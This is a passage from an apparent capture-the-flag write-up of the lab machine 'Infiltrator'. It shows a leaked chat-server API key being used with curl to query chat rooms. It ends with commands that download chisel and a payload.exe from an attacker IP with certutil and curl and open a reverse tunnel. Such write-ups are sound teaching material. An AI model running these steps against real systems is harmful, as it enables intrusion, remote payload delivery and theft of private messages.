 ![](/assets/images/writeups/infiltrator/OM-API-key.png)

```
lan_management api key 558R501T5I6024Y8JV3B7KOUN1A518GG
```

Now we can proceed to see what we can do with the API key. Reading the docs of OM, this is one of the request that can be made.

```http
Request Headers: 
GET /api/chatrooms/[ROOM]
Accept: application/json, text/javascript, */*;  
API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG 
Host: infiltrator.htb:14125
```

Therefore we also need to forward port 14125 and send the following request.

```powershell
PS C:\> curl.exe -H 'Accept: application/json, text/javascript, */*;' -H 'API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG' -H 'Host: infiltrator.htb:14125' http://localhost:14125/api/chatrooms/Chiefs_Marketing_chat

{"row":{"room":"Chiefs_Marketing_chat","roomusers":"A.walker|0,O.martinez|0"},"success":true}
```
 
Alright, we indeed see that Martinez is part of this chat room. In order to read the chat logs, we need to also find the `roomkey` according to the docs. We have to start looking for this on the DC. We log in as `winrm_svc` and find an `OM.db3` file in the `AppData` folder of this user. We download it and open it with a database viewer. In one of the tables we find the key.


[dc01.infiltrator.htb]: PS C:\Users\M.harris\Documents> certutil -f -urlcache http://10.10.14.7:8000/chisel.exe C:\Windows\Temp\chisel.exe
[dc01.infiltrator.htb]: PS C:\Windows\Temp> .\chisel.exe client 10.10.14.7:8080 R:14121:127.0.0.1:14406
[10.10.11.31]: PS C:\Windows\Temp> curl.exe http://10.10.14.7:8000/payload.exe -o payload.exe